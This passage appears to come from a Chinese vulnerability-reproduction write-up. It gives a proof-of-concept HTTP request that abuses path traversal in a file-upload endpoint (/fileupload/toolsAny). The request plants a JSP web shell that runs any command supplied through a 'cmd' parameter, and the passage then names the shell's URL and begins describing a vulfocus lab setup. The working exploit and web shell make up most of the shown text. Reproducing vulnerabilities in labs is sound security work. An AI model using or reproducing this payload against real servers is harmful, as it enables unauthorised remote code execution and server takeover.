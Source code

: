 **poc:**

```http
POST /fileupload/toolsAny HTTP/1.1
Host: xxxx:xxxx
Accept: */*
Accept-Encoding: gzip, deflate
Content-Length: 889
Content-Type: multipart/form-data; boundary=4ef9f369a86bfaadf5ec3177278d49c0
User-Agent: python-requests/2.22.0

--4ef9f369a86bfaadf5ec3177278d49c0
Content-Disposition: form-data; name="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"; filename="../../../../repository/deployment/server/webapps/authenticationendpoint/1.jsp"

<FORM>
    <INPUT name='cmd' type=text>
    <INPUT type=submit value='Run'>
</FORM>
<%@ page import="java.io.*" %>
    <%
    String cmd = request.getParameter("cmd");
    String output = "";
    if(cmd != null) {
        String s = null;
        try {
            Process p = Runtime.getRuntime().exec(cmd,null,null);
            BufferedReader sI = new BufferedReader(new
InputStreamReader(p.getInputStream()));
            while((s = sI.readLine()) != null) { output += s+"</br>"; }
        }  catch(IOException e) {   e.printStackTrace();   }
    }
%>
        <pre><%=output %></pre>
--4ef9f369a86bfaadf5ec3177278d49c0--
```

入口：https://ip:port/authenticationendpoint/1.jsp

## 三、漏洞复现

**1.开启靶场环境**

此处用的是vulfocus靶场相关镜像

![](2024-02-13/1-1707836614637-45.png)
